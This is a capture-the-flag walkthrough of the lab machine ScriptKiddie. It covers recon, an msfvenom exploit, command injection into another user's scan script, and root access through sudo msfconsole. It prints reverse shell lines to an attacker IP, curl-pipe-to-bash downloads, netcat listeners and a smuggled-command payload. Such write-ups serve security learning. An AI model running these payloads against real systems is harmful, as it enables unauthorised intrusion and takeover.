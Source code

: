 # ScriptKiddie

## Information Gathering

### General Information
10.10.10.226<br>
ScriptKiddie<br>

### Versions
- OpenSSH 8.2p1
- Werkzeug httpd 0.16.1 (Python 3.8.5)

### Outstanding Observations


## Scanning
Start with a basic nmap scan:
```bash
# Nmap 7.92 scan initiated Mon Apr  4 13:20:51 2022 as: nmap -sC -sV -oN nmap/kiddie.nmap 10.10.10.226
Nmap scan report for 10.10.10.226
Host is up (0.040s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr  4 13:21:00 2022 -- 1 IP address (1 host up) scanned in 9.13 seconds

```
Running a Nikto and Gobuster scan does not yield anything. Possibly because Werkzeug is a type of Web API.<br>

## Exploitation
Navigating to this page shows the use of three tools: nmap, msfvenom, searchsploit all from the web application. Attempting some command injections doesn't get anywhere. Because these tools are front facing we may be able to exploit vulnerabilities to these applications from the website. Doing a bit of research shows <a href="https://www.exploit-db.com/exploits/49491">this</a> exploit for msfvenom.<br>
I try to modify this exploit to run <b>bash -i >& /dev/tcp/10.10.14.15/1337 0>&1</b> but continue to get an error. Inputting some random payload like 'test' does not cause this error. Trying to put a cURL command into the payload field does not generate any errors. Thus, the attack chain is this:<br><br>
Write the command I want to inject into the server into a file
```bash
bash -i >& /dev/tcp/10.10.14.15/1337 0>&1
```
Within the python script write ```curl http://10.10.14.15:8080/shell.sh | bash``` and run the script to generate the payload.<br>
Spin up the web server you are going to download the script from: ```python3 -m http.server 8080```<br>
Lastly, start the reverse shell: ```nc -lnvp 1337```<br>
Upload the file and you will catch a reverse shell as the <b>kid</b> user.

## Privilege Escalation

### Pivoting to pwn
Taking a look around, there appears to be two active users on this machine: kid and pwn. The pwn user seem to be running a shell script, /home/pwn/scanlosers.sh which reads from a file /home/kid/logs/hackers.
```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```
This shell script runs a nmap scan against any ip address logged in the hackers file. Looking at the code in /home/kid/html/app.py shows that an ip address from the web application gets logged everytime someone attempts an OS command injection. We can avoid this step as kid can write directly to the <b>hackers</b> file.<br>
We can inject an OS command into this shell script in order to pivot over to the pwn user. I fiddled around for a while but found a payload which elevates privileges:
```bash
127.0.0.1 ; $(curl http://10.10.14.15:8080/pwn.sh | bash)
```
Performing the same steps as getting foothold allows you to pivot over to the pwn user.<br>
Write a shell script to toss the reverse shell ```bash -i >& /dev/tcp/10.10.14.15/9999 0>&1```<br>
Start a reverse shell ```nc -lnvp 9999```<br>
Start a web server to download the shell script ```python3 -m http.server 8080```<br>
Lastly, inject and save the command to the hackers file. This should immedeiatly catch a shell to the pwn user.

### Getting root
Looking to see if pwn can perform sudo without any passwords shows:
```bash
$ sudo -l

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```
Running ```sudo msfconsole``` allows us to run system commands within msfconsole as root.
```bash
msf6 > cat /root/root.txt
[*] exec: cat /root/root.txt

[FLAG]
```